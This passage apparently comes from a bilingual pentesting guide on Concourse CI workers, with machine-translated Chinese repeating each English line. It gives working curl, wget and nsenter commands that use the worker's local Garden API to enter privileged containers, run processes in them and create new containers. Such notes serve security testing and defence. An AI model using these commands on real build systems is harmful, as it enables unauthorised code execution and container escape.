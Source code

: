 Note that playing with concourse I noted that when a new container is spawned to run something, the container processes are accessible from the worker container, so it's like a container creating a new container inside of it.

请注意，与Concourse一起玩，我注意到，当催生新容器以运行某些东西时，可以从Worker容器中访问容器过程，因此就像一个容器一样，在其中创建了一个新的容器。

#### Getting inside a running privileged container

####进入运行的特权容器

```bash
# Get current container
curl 127.0.0.1:7777/containers
{"Handles":["ac793559-7f53-4efc-6591-0171a0391e53","c6cae8fc-47ed-4eab-6b2e-f3bbe8880690"]}

# Get container info
curl 127.0.0.1:7777/containers/ac793559-7f53-4efc-6591-0171a0391e53/info
curl 127.0.0.1:7777/containers/ac793559-7f53-4efc-6591-0171a0391e53/properties

# Execute a new process inside a container
# In this case "sleep 20000" will be executed in the container with handler ac793559-7f53-4efc-6591-0171a0391e53
wget -v -O- --post-data='{"id":"task2","path":"sh","args":["-cx","sleep 20000"],"dir":"/tmp/build/e55deab7","rlimits":{},"tty":{"window_size":{"columns":500,"rows":500}},"image":{}}' \
  --header='Content-Type:application/json' \
  'http://127.0.0.1:7777/containers/ac793559-7f53-4efc-6591-0171a0391e53/processes'
  
# OR instead of doing all of that, you could just get into the ns of the process of the privileged container
nsenter --target 76011 --mount --uts --ipc --net --pid -- sh
```

#### Creating a new privileged container

####创建一个新的特权容器

You can very easily create a new container (just run a random UID) and execute something on it:

您可以非常轻松地创建一个新容器（只需运行一个随机UID）并在其上执行某些内容：

```bash
curl -X POST http://127.0.0.1:7777/containers \
   -H 'Content-Type: application/json' \
   -d '{"handle":"123ae8fc-47ed-4eab-6b2e-123458880690","rootfs":"raw:///concourse-work-dir/volumes/live/ec172ffd-31b8-419c-4ab6-89504de17196/volume","image":{},"bind_mounts":[{"src_path":"/concourse-work-dir/volumes/live/9f367605-c9f0-405b-7756-9c113eba11f1/volume","dst_path":"/scratch","mode":1}],"properties":{"user":""},"env":["BUILD_ID=28","BUILD_NAME=24","BUILD_TEAM_ID=1","BUILD_TEAM_NAME=main","ATC_EXTERNAL_URL=http://127.0.0.1:8080"],"limits":{"bandwidth_limits":{},"cpu_limits":{},"disk_limits":{},"memory_limits":{},"pid_limits":{}}}'

# Wget will be stucked there as long as the process is being executed
wget -v -O- --post-data='{"id":"task2","path":"sh","args":["-cx","sleep 20000"],"dir":"/tmp/build/e55deab7","rlimits":{},"tty":{"window_size":{"columns":500,"rows":500}},"image":{}}' \
  --header='Content-Type:application/json' \
  'http://127.0.0.1:7777/containers/ac793559-7f53-4efc-6591-0171a0391e53/processes'
```
